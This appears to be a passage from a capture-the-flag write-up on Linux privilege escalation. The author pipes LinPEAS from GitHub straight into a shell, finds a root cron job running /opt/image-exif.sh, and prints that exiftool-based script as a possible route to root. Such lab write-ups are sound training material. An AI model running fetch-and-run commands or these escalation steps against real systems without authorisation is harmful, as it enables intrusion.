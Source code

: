 Nothing.... let's try LinPEAS.

13) We download LinPeas and pipe it straight to a shell:

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

(tool a long time sifting through the results)

Under the Cron jobs section of the results:

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```

There's a script that runs constantly (as root) `/opt/image-exif.sh`, perhaps we can modify the script to escalate ourselves:

```
$ ls -la /opt
total 16
drwxr-xr-x  3 root root 4096 Jun 10  2021 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
-rwxr-xr-x  1 root root  437 Jun 10  2021 image-exif.sh
drwxr-xr-x  2 root root 4096 Jun 10  2021 metadata
```

We can't modify it (don't have the right file permissions)... but let's take a look at what it does, maybe we can abuse it to get root...

```
$ cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```
